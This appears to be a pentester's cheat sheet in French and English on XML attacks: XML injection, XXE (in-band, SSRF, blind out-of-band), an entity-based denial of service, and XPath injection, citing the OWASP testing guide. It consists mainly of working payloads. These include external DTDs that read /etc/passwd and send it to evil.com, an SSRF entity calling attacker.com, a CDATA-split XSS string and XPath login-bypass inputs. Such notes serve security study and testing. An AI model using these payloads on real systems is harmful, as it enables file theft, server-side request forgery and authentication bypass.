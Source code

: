 # XXE and other XML vulnerabilities

## XML injection

Si nos inputs sont directement ajoutés en tant que nœud dans un doc xml :

* We can inject malformed string to break the parser
* On peut modifier les informations enregistrées. Par exemple si notre input consiste en notre nom et que l'app rajoute ensuite automatiquement un champ pour nos droits, on peut fabriquer notre input de force à commenter la partie générée par l'appli et à la place mettre la notre \(owasp testing guide 4 page 138 pour un exemple\).
* If the xml is converted to html, `<![CDATA[]]>` might just be stripped, making it possible to inject other script undetected

```text
<html>
 <![CDATA[<]]>script<![CDATA[>]]>alert(‘xss’)<![CDATA[<]]>/
script<![CDATA[>]]>
 </html>
<!-- to : -->
<script>alert(‘XSS’)</script>
```

## XXE - _XML External Entities_

### Inband

Si le site nous renvoi directement ce qui a été parsé, on peut envoyer ce genre de fichier :

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE inband [
    <!ELEMENT inband ANY>
    <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<inband>&xxe;</inband>
```

### SSRF - _Server Side Request Forgery_

On peut faire n'importe quelle requête _au nom du serveur_ en lui faisant suivre un lien pour load un DTD externe :

```markup
<?xml version="1.0"?>
<!DOCTYPE ssrf [
    <!ENTITY request SYSTEM "http://attacker.com">
]>
<ssrf>&request;</ssrf>
```

### Out-of-band \(blind\)

Pour "exfilter" les données au cas où elles ne nous sont pas montrées, on peut forcer le serveur à faire une requête vers notre serveur avec dans le lien les données.

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
    %wrapper;
```

Au cas où le contenu du fichier ferait bugger le parser, on peut abuser de _CDTATA_ :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % end "]]>">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%start;%file_content;%end;'>">
    %wrapper;
```

### DDOS

By doing this kind of request we can DDOS

```markup
<?xml version=”1.0” encoding=”ISO-8859-1”?>
 <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM “file:///dev/random” >
]>
<foo>&xxe;</foo>
```

### Ressources supplémentaires

* [https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/) 
* [https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
* See also "A Billion Laugh" attack

## XPath Injection

Elles suivent la même logique que les injections SQL.

Exemple :

Cette requête récupère le compte correspondant à "gandalf" avec le mdp "!3c" `string(//user[username/text()=’gandalf’ and password/text()=’!c3’]/account/text())`

On peut s'authentifier en la transformant ainsi :

`string(//user[username/text()=’’ or ‘1’ = ‘1’ and password/text()=’’ or ‘1’ = ‘1’]/account/text())`

En insérant ces valeurs :

* Username: ‘ or ‘1’ = ‘1
* Password: ‘ or ‘1’ = ‘1

J'imagine que le même genre de chose est possible avec XQuery.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction [video](https://youtu.be/gjm6VHZa_8s)
* Misc research

